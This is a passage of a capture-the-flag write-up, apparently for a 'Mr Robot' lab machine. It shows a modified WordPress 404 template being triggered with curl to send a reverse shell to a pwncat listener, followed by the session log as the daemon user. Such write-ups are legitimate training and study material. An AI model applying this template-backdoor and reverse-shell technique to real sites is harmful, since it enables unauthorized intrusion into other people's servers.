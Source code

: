 This Template works when you cause an error then as you are instructing it to send you a reverse shell when you cause an error that is what it will do after that click on the button `Update File` to save the modify template

![](/assets/images/try-writeup-mrrobot/404.png)

![](/assets/images/try-writeup-mrrobot/save.png)

## Reverse Shell

Error because don't exist 

```
❯ curl 10.10.81.190/404jsjsj
```

```python
❯ pwncat-cs -lp 443
/opt/pwncat/lib/python3.9/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[20:03:28] Welcome to pwncat 🐈!                                                                                 __main__.py:164
[20:05:31] received connection from 10.10.81.190:45677                                                                bind.py:84
[20:05:36] 0.0.0.0:443: normalizing shell path                                                                    manager.py:957
[20:05:40] 10.10.81.190:45677: registered new host w/ db                                                          manager.py:957
(local) pwncat$ back
(remote) daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
(remote) daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ hostname -I                                                          
10.10.81.190 
(remote) daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ bash                                                                 
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$
```
